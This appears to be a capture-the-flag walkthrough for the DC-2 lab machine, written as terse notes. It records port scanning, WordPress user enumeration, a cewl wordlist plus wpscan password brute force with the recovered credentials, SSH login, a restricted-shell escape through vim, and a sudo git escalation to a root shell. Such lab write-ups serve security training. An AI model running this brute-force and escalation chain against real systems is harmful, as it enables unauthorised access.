 # DC 2

***

IP=192.168.240.194

## NMAP

| PORT     | STATE | SERVICE    |
| -------- | ----- | ---------- |
| 80/tcp   | open  | http       |
| 7744/tcp | open  | raqmon-pdu |

```perl
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
```

### /etc/hosts

```txt
192.168.240.194 dc-2
```

## 80

```perl
whatweb http://dc-2
http://dc-2/ [200 OK] Apache[2.4.10], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.10 (Debian)], IP[192.168.240.194], JQuery[1.12.4], MetaGenerator[WordPress 4.7.10], PoweredBy[WordPress], Script[text/javascript], Title[DC-2 &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.7.10]
```

### wordpress

```txt
admin
jerry
tom
```



<figure><img src="../.gitbook/assets/Pasted image 20231023190517.png" alt=""><figcaption></figcaption></figure>

_cewl_ is a Ruby-based web crawler that is used for scraping words from websites to create custom wordlists. It is commonly used in cybersecurity and penetration testing contexts to generate wordlists for password cracking and other security testing purposes.

The name "cewl" stands for "_Custom Word List generator_." When used in the context of your previous message ("maybe you just need to be cewl"), it likely implies that you need to think creatively and generate a custom wordlist or use unconventional passwords or phrases to solve the challenge.

```bash
cewl http://dc-2 -w /tmp/wordlist.txt
```

```bash
wpscan --url http://dc-2/ -P /tmp/wordlist.txt -t 50
```

\[!] Valid Combinations Found: | Username: jerry, Password: adipiscing | Username: tom, Password: parturient

## 7744 - ssh

```bash
ssh tom@$IP -p 7744
parturient
```

### restricted bash

```bash
echo $PATH
/home/tom/usr/bin

ls -la /home/tom/usr/bin
```



<figure><img src="../.gitbook/assets/Pasted image 20231023193507.png" alt=""><figcaption></figcaption></figure>

https://0xffsec.com/handbook/shells/restricted-shells/

#### vim

```bash
:set shell=/bin/bash
:shell
```

```bash
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/bash:$SHELL
```

### sudoers

```bash
su jerry
sudo git -p help config
!/bin/sh
```
